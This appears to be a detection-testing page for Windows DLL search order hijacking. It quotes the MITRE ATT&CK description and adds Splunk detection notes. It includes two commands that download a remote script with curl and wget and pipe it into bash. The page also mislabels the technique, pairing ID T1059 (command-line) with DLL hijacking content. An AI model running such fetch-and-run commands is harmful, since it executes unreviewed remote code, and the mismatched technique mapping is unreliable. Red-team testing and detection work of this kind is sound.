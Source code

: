 # T1059 - DLL Search Order Hijacking
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1038)
<blockquote>
Windows systems use a common method to look for required DLLs to load into a program. [1](https://docs.microsoft.com/en-us/windows/desktop/Dlls/dynamic-link-library-search-order)
Adversaries may take advantage of the Windows DLL search order and programs that ambiguously specify DLLs to gain privilege escalation and persistence.

Adversaries may perform DLL preloading, also called binary planting attacks, [2](https://www.owasp.org/index.php/Binary_planting) by placing a malicious DLL with the same name as an ambiguously specified DLL in a location that Windows searches before the legitimate DLL. Often this location is the current working directory of the program. Remote DLL preloading attacks occur when a program sets its current directory to a remote location such as a Web share before loading a DLL.[3](http://blogs.technet.com/b/msrc/archive/2010/08/21/microsoft-security-advisory-2269637-released.aspx) 
Adversaries may use this behavior to cause the program to load a malicious DLL.

Adversaries may also directly modify the way a program loads DLLs by replacing an existing DLL or modifying a .manifest or .local redirection file, directory, or junction to cause the program to load a different DLL to maintain persistence or privilege escalation. [4](https://docs.microsoft.com/en-us/windows/desktop/Dlls/dynamic-link-library-redirection),[5](https://docs.microsoft.com/en-us/windows/desktop/SbsCs/manifests),[6](https://www.fireeye.com/blog/threat-research/2010/08/dll-search-order-hijacking-revisited.html)

If a search order-vulnerable program is configured to run at a higher privilege level, then the adversary-controlled DLL that is loaded will also be executed at the higher level. In this case, the technique could be used for privilege escalation from user to administrator or SYSTEM or from administrator to SYSTEM, depending on the program.

Programs that fall victim to path hijacking may appear to behave normally because malicious DLLs may be configured to also load the legitimate DLLs they were meant to replace


</blockquote>

## Assumptions
Attacker or local user has access to command propmpt or powershell

## Execution:
 

<blockquote>
```
bash -c "curl -sS https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1059/echo-art-fish.sh | bash"
bash -c "wget --quiet -O - https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/Atomics/T1059/echo-art-fish.sh | bash"
```
</blockquote>

or any commandline or powershel command

## Detection:
* Monitor CommandLine activity (including powershell)
* [Read Mitre ATT&CK for more Detection info](https://attack.mitre.org/wiki/Technique/T1059)

### Visibility
* Windows event log
* Enable Commandline audit
* Command line / Powershell activity

### Filter / Correlation in Splunk
Following catch both comandline and powershell, although they can be separated in two. 

```
"CommandLine:*"
```

![Splunk Detection](https://github.com/avaplex/dpi911/blob/master/images/T1059.JPG)

